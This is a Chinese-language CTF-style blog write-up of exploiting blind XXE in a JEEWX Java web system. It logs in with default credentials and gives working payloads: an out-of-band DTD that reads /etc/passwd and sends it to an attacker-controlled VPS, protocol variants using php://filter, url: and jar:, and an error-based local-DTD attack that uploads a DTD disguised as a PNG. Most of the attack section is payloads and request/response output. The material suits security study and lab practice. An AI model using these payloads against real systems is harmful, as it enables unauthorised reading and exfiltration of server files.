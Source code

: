 ```yaml
---
title: 一次Java系统的报错型XXE漏洞利用
tags:
  - CTF
  - Web安全
categories: Web安全
date: 2022-11-22 20:20:24
---
```





当我们发现一个XXE的时候，支持外部实体，但是服务端无回显。在这种情况，你有两种选择：**error-based** 或者 **out-of-band** 。

<!-- more -->



访问发现是JEEWX系统，使用admin/123456登录。

点击微信配置——>公众号测试

发现如下数据包，看起来存在xxe漏洞，支持外部实体。

```
POST /wechatController.do?wechat HTTP/1.1
Host: xxxxxxxx:50636
User-Agent: Mozilla/5.0xxxxxx
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: text/xml
Content-Length: 270
Origin: http://xxxxxxxx:50636
Connection: close
Referer: http://ip:50636/commonweixin/back/myJwWebJwid/list.do
Cookie: JSESSIONID=2AA6D309ADC8925576F35xxxxxxxx

<?xml version="1.0"?>
<!DOCTYPE message [<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">]><xml>
<ToUserName>test</ToUserName>
<FromUserName>test</FromUserName>
<CreateTime>test</CreateTime>
<MsgType>test</MsgType>
<Content>test</Content>
</xml>
```

查看响应包

```
HTTP/1.1 200 
Content-Length: 32
Date: Tue, 22 Nov 2022 10:27:27 GMT
Connection: close

{msg=xml parse success,no error}
```

确定没有回显点，尝试用XXE盲打。







## XXE out-of-band

aa.dtd（vps)

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://vps-ip:port/?file=%file;'>">
```





payload

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://vps-ip:port/aa.dtd">
%remote;
%all;
%send;
]>
```

返回结果如下，如果java版本java1.7+，不能直接使用file:///	

 参考：

 http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html  

https://lalajun.github.io/2019/12/03/WEB-XXE/#%E5%8D%8F%E8%AE%AE%E7%BB%95%E8%BF%87

![](../images/pics/打靶/33.jpg)

我们将aa.dtd改动一下，使用不存在的一个文件，看有什么报错

```
<!ENTITY % file SYSTEM "file:///etxxxxxxxxxxx">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://vps-ip:port/?file=%file;'>">
```

再次请求，返回如下报错

```
{msg=xml parse error, error=org.dom4j.DocumentException: /etxxxxxxxxxxx (No such file or directory) Nested exception: /etxxxxxxxxxxx (No such file or directory)}
```

说明是存在xxe漏洞的，没有找到这个不存在的文件。



**如果是php的题目我们可以用php封装器绕过对file协议的检测**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http:/ip:port/?file=%file;'>">
```



但是这里可以判断是java的，我们可以用url协议和，jar协议，在服务端重新部署

- url

  ```
  <!ENTITY % file SYSTEM "file:////flag">
  <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'url://vps-ip:port/?file=%file;'>">
  ```

  

- jar

  ```
  <!ENTITY % file SYSTEM "file:////flag">
  <!ENTITY % all "<!ENTITY &#37; send SYSTEM 'jar://vps-ip:port/?file=%file;'>">
  ```

  

再次请求

![](../images/pics/打靶/34.jpg)





## 本地DTD方式利用XXE

在图文素材的文件上传处，上传文件获取到绝对路径

```
{"success":true,"msg":"文件上传成功","obj":null,"attributes":{"savePath":"/jeewx-data/1c53c34494674865b5e947db1a8de74d.png","fileKey":"","url":"/imgs/back/1c53c34494674865b5e947db1a8de74d.png"}}
```

根据这篇文章：https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

我们可以上传一个dtd文档，但是这里只支持图片格式，我们后缀就用png，试一试。



上传的dtd文件如下

```
<!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
<!ELEMENT pattern (%condition;)>
```

原理是：This works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.



![](../images/pics/打靶/35.jpg)



payload

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///jeewx-data/950e68c86579486ab5891fc49d23d244.png">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
```

![](../images/pics/打靶/36.jpg)





## 参考

-  http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html  

- https://lalajun.github.io/2019/12/03/WEB-XXE/#%E5%8D%8F%E8%AE%AE%E7%BB%95%E8%BF%87

- https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/









